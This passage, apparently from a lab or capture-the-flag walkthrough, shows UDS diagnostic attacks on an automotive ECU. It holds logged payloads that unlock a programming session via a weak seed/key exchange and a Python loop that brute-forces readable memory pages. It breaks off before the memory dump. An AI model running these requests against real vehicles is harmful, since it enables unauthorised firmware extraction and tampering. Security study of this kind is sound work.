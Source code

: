 Output:

```bash
INFO - Sending payload: 02 10 02
INFO - Response: 02 50 02 (Changing to Programming Session)
INFO - Sending payload: 02 27 01
INFO - Response: 06 67 01 30 30 30 30
INFO - Seed: bytearray(b'0000')
INFO - Sending payload: 06 27 02 00 00 01 00
INFO - Response: 02 67 02
INFO - Logged in
INFO - Sending payload: 06 23 22 10 00 00 01
INFO - Response: 03 7f 23 31
```

What’s new here is the final response to the read memory request: `03 7f 23 31`. This is a negative response with NRC `0x31 (Request Out of Range)`. This likely indicates that our current session either does not have permission to access this memory region or that the memory does not exist.

### Brute-Forcing Memory Addresses

Next, we’ll attempt to read a single byte from each memory page in the range 0x0000 to 0xF000, with each page spanning 0x1000 bytes. This will help us identify which memory pages are accessible in our current session.

```python
...
for i in range(0x0, 0xf0, 0x10):
    payload = bytearray([0x6, 0x23, 0x22, i, 0x00, 0x00, 0x01])
    logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
    sock.send(payload)

    response = bytearray(sock.recv(8))
    logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
    if response[1] != 0x7f:
        logger.info(f"{hex(i)}00 is Valid")
```

Output:

```bash
INFO - Sending payload: 06 23 22 40 00 00 01
INFO - Response: 02 63 00
INFO - 0x4000 is Valid
```

We successfully read data from 0x4000 address, so now let's try to dump the entire page.

## Step 8: Dump entire memory page

When you request more than 7 bytes of data (like reading a chunk of memory), the ISO-TP protocol kicks in:

### Step-by-Step Flow
